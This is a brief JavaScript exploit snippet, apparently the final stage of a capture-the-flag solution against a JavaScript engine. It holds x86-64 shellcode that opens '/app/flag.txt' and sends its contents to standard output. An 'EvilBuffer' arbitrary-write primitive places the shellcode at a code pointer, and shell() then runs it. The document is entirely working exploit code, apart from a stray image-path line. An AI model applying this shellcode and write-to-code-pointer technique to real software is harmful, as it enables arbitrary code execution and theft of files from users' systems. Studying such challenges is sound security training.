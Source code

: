 ```js
let shellcode = [0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x50, 0x48, 0xb8, 0x66, 0x2f, 0x75, 0x79, 0x75, 0x1, 0x1, 0x1, 0x48, 0x31, 0x4, 0x24, 0x48, 0xb8, 0x2f, 0x61, 0x70, 0x70, 0x2f, 0x66, 0x6c, 0x61, 0x50, 0x6a, 0x2, 0x58, 0x48, 0x89, 0xe7, 0x31, 0xf6, 0x99, 0xf, 0x5, 0x41, 0xba, 0xff, 0xff, 0xff, 0x7f, 0x48, 0x89, 0xc6, 0x6a, 0x28, 0x58, 0x6a, 0x1, 0x5f, 0x99, 0xf, 0x5];

let eb = new EvilBuffer(corrupted);
eb.arb_write(code_ptr, shellcode);
shell();
```